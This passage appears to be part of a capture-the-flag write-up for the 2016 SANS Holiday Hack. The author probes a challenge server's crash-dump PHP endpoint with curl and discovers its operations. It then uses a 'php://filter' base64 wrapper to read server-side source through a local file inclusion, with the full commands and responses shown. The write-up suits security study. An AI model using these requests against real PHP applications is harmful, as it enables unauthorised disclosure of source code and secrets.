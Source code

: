 <figure class="highlight"><pre><code class="language-java" data-lang="java">$ wget http://ex.northpolewonderland.com/docs/<span class="sb">crashdump-5zzbdA.php</span>
--2016-12-26 14:15:20--  http://ex.northpolewonderland.com/docs/crashdump-5zzbdA.php
Resolving ex.northpolewonderland.com (ex.northpolewonderland.com)... 104.154.196.33
Connecting to ex.northpolewonderland.com (ex.northpolewonderland.com)|104.154.196.33|:80... connected.
HTTP request sent, awaiting response... <span class="sb">500 Internal Server Error</span>
2016-12-26 14:15:20 ERROR 500: Internal Server Error.
</code></pre></figure>

Ok, so it won't be that easy ;-) Let's try to fiddle with the request to see if we can prompt a different response from the server. Charles makes this easy by allowing us to copy the request in cURL format. Let's begin with the operation field.

<figure class="highlight"><pre><code class="language-java" data-lang="java">$ curl -H 'Content-Type: application/json' -H 'User-Agent: Dalvik/2.1.0 (Linux; U; Android 5.0; Custom Phone - 5.0.0 - API 21 - 768x1280 Build/LRX21M)' -H 'Host: ex.northpolewonderland.com' --data-binary "{\"operation\":\"<span class="sb">NotARealOperation</span>\",\"data\":{\"message\":\
...
'http://ex.northpolewonderland.com/exception.php'                           
Fatal error! JSON key 'operation' must be set to WriteCrashDump or ReadCrashDump.
</code></pre></figure>

Ah nice! So we now know there are two possible operations: `WriteCrashDump` and `ReadCrashDump`. Let's see what the `ReadCrashDump` operation does for us.

<figure class="highlight"><pre><code class="language-java" data-lang="java">$ curl -H 'Content-Type: application/json' --data-binary "{\"operation\":\"<span class="sb">ReadCrashDump</span>\",\"data\":{}}" --compressed 'http://ex.northpolewonderland.com/exception.php'

<span class="sb">Fatal error! JSON key 'crashdump' must be set.</span>  </code></pre></figure>

Alright, so we need a `crashdump` attribute set. Let's use our crashdump file returned in the response of our original exception.

<figure class="highlight"><pre><code class="language-java" data-lang="java">$ curl -H 'Content-Type: application/json' --data-binary "{\"operation\":\"ReadCrashDump\",\"data\":<span class="sb">{\"crashdump\":\"crashdump-5zzbdA.php\"}</span>}" --compressed 'http://ex.northpolewonderland.com/exception.php' 

<span class="sb">Fatal error! crashdump value duplicate '.php' extension detected.</span>
</code></pre></figure>

Oh, weird.. so the server auto appends `.php` for us.. This could remind us of [a blog post](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) a little birdie told us about. We could possibly use a PHP Filter to read our the crashdump file instead.

<figure class="highlight"><pre><code class="language-java" data-lang="java"> curl -H 'Content-Type: application/json' --data-binary "{\"operation\":\"ReadCrashDump\",\"data\":{\"crashdump\":\"<span class="sb">php://filter/convert.base64-encode/resource=crashdump-5zzbdA</span>\", \"folder\":\"docs\"}}" --compressed 'http://ex.northpolewonderland.com/exception.php' | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2158    0  2028  100   130  15521    994 --:--:-- --:--:-- --:--:-- 15480
<\?php print('{
    "message": "Attempt to invoke virtual method 'void com.parse.P...",
    "lmessage": "Attempt to invoke virtual method 'void com.parse.P...",
    "strace": "...",
</code></pre></figure>
